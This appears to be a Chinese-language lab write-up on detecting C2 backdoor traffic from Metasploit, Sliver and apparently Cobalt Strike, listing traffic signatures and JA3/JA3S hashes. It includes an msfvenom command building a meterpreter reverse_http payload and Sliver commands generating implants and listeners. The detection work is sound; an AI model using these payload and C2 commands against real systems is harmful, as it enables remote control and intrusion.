## C2后门 流量分析

启动服务器端



分别上线http和https







### http

特征1请求会以get请求 固定特征头 （老版本） 当运行.exe文件后





特征2   路径特征：checksum8 （92L 93L）

32位92  64位93









## DidierStevensSuite  分析后门流量 



成功解密



监听器的类别




上线端口是1111



请求路径





### HTTPS

生成http后门





翻到最下面



```
2、源码特征（ja3 ja3s）  4.7版本特征  每个都一样
client hello 
4d5efa96609dc906f796e63cff009c2a 
db36bad574044a5104a59b0c676991ef
server hello 
15af977ce25de452b96affa2addb1036 2253c82f03b621c5144709b393fde2c9
```

保存包



## ja3-master   和   ja3box-master   解析包






## msf

```
msfvenom -p windows/meterpreter/reverse_http lhost=xx lport=6666 -f exe -o 6666.exe
```







tcp可以看见明文



http 会访问随机路径 



固定头



返回包里面会有个mz



https  放入ja3-master中解析





```
JA3/JA3S值：
4d93395b1c1b9ad28122fb4d09f28c5e 652358a663590cfc624787f06b82d9ae
15af977ce25de452b96affa2addb1036 2253c82f03b621c5144709b393fde2c9
```


## Sliver

### http

```
生成Implant/Payload
generate --http http://192.168.0.105:9001 --os windows
```

```
http -l 9001   //创建监听器
```







在源码中完全随机



路径上的完全随机



根据路径文件名，后缀，cookie这些信息到源码里面的数组随机组合配合分析排查



### https

```
# 生成不同架构的Implant
generate --http http://192.168.0.105:9002
generate --mtls /192.168.0.105:9002--os windows --arch amd64
generate --mtls 172.16.181.182:443 --os linux --arch amd64
generate --mtls 172.16.181.182:443 --os mac --arch arm64
# 查看所有Implant信息
implants
# 重新生成指定Implant
regenerate --save . [Implant Name]
```


```
# 启动指定协议的监听器，配置端口
mtls -l 443
```







经过两次实验

